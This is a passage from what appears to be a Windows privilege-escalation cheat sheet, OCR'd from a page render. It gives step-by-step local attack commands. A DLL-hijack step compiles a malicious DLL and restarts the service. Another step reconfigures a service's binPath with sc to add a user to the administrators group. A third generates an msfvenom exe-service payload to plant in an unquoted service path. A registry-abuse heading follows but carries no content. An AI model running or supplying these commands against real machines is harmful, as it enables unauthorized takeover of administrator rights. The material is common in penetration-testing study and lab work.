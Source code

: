 2\.

x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

3\.

sc stop dllsvc & sc start dllsvc

<a name="abusing-services-via-binpath"></a>
# Abusing Services via binPath

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

sc config daclsvc binpath= \"net localgroup administrators user /add\"

2\.

sc start daclsvc

<a name="abusing-services-via-unquoted-path"></a>
# Abusing Services via Unquoted Path

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

msfvenom -p windows/exec CMD=\'net localgroup administrators user /add\'
-f exe-service -o

common.exe

2\.

Place common.exe in 'C:\\Program Files\\Unquoted Path Service'.

3\.

sc start unquotedsvc

<a name="abusing-services-via-registry"></a>
# Abusing Services via Registry
